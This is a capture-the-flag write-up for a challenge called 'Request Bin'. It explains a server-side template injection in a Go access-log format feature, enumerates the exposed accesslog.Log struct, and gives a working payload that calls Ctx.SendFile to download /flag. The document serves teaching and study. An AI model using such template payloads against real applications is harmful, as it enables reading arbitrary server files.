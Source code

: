 # Request Bin

The challenge starts with a simple page where you can insert your custom format for your access.log output.
Each time you submit a format template, it will generate a custom endpoint for your request where you can see your format in action.

Such an endpoint looks like this: `/logs/jscEcebayJ`

The exploit exists in the Golang templating, which results in a classic SSTI. It is not as powerful as a
python-flask SSTI but it can be used if the right variables are passed to our template.

A normal template looks like this in golang:

```go
data := struct {
    Title string
}{"test title"}
et, err := template.New("example").Parse("<h1>{{ .Title }}</h1>")
if err != nil {
    panic(err)
}
err = et.Execute(os.Stdout, data)
```

Which will print `<h1>test title</h1>`. So far nothing new, we can access variables which we pass to the templating mechanism.
But the go templates can go even further, it's possible to call public functions of the passed variable struct.

A public function can be detected by the first character in the name of the function. If it's uppercase, it's public. If it's lowercase, it's private.
A function for a struct can be found in the following format:

```golang
type Example struct {
    Title string
}
func (rp *Example) TestPublicFunction() {

}
func (rp *Example) testPrivateFunction() {

}
```

But there are some limitations to the calling of such functions. The function needs to fit specific criteria.
It needs to return one value and an optional error. Example, what is possible:

```golang
type Example struct {
    Title string
}

func (rp *Example) TestPublicFunction()  { // Not Possible
    ...
}
func (rp *Example) TestPublicFunction() error { // Possible
    ...
}
func (rp *Example) testPrivateFunction() int { // Possible
    ...
}
func (rp *Example) testPrivateFunction() (int, error) { // Possible
    ...
}
func (rp *Example) TestPublicFunction() (int, int, error) { // Not Possible
    ...
}
```

After it is clear what is in the scope, we need to find out what object/struct is passed to the templating.
We found out to run it locally and try a variable argument which can't exist.

```html
{{ .PwnProphecy1234 }}
```

And we will see in our logs that we got the following error:

```
accesslog: template: :1:3: executing "" at <.PwnProphecy1234>: can't evaluate field PwnProphecy1234 in type *accesslog.Log
```

So we know that we have the struct `accesslog.Log` in front of us.
Now let's see what variables and functions are around.

Variables:
```
	Logger *AccessLog `json:"-" yaml:"-" toml:"-"`
	Now time.Time `json:"-" yaml:"-" toml:"-"`
	TimeFormat string `json:"-" yaml:"-" toml:"-"`
	Timestamp int64 `json:"timestamp" csv:"timestamp"`
	Latency time.Duration `json:"latency" csv:"latency"`
	Code int `json:"code" csv:"code"`
	Method string `json:"method" csv:"method"`
	Path   string `json:"path" csv:"path"`
	IP string `json:"ip,omitempty" csv:"ip,omitempty"`
	Query []memstore.StringEntry `json:"query,omitempty" csv:"query,omitempty"`
	PathParams memstore.Store `json:"params,omitempty" csv:"params,omitempty"`
	Fields memstore.Store `json:"fields,omitempty" csv:"fields,omitempty"`
	Request  string `json:"request,omitempty" csv:"request,omitempty"`
	Response string `json:"response,omitempty" csv:"response,omitempty"`
	BytesReceived int `json:"bytes_received,omitempty" csv:"bytes_received,omitempty"`
	BytesSent     int `json:"bytes_sent,omitempty" csv:"bytes_sent,omitempty"`
	Ctx *context.Context `json:"-" yaml:"-" toml:"-"`
```

Functions:
```
func (l *Log) Clone() Log
func (l *Log) RequestValuesLine() string
func (l *Log) BytesReceivedLine() string
func (l *Log) BytesSentLine() string
```

After a brief experiment, we can see that most variable types have no effect; strings, ints, and so on.
The list of functions is also not useful, so we concentrate on the variables and their functions.

After a reduction of the variables, we have the following left:

```
	Logger *AccessLog `json:"-" yaml:"-" toml:"-"`
	Query []memstore.StringEntry `json:"query,omitempty" csv:"query,omitempty"`
	PathParams memstore.Store `json:"params,omitempty" csv:"params,omitempty"`
	Fields memstore.Store `json:"fields,omitempty" csv:"fields,omitempty"`
	Ctx *context.Context `json:"-" yaml:"-" toml:"-"`
```

Now the time-consuming task was to iterate over the types and find out what functions and variables they contained.
To reduce the size of the writeup, we can say we reduced the possibility of an attack to the following struct:

```
Ctx *context.Context
```

This variable/struct contains a function:

```
func (ctx *Context) SendFile(src string, destName string) error
```

which is used to send a file from the server to the client. This can be used to extract the flag.

We can build it in our Golang template once we know the entire call path `Ctx-> SendFile`.

```
{{ .Ctx.SendFile "/flag" "result.txt"}}
```

When we put that into the form and submit it, we get a download of /flag which contains the flag according to the dockerimage:

```
<nil>we{f3ae92c8-0d8d-4072-ae37-ca3717842238@N3verTh0ughtG0HA3Tmp1Injec=t19n}
```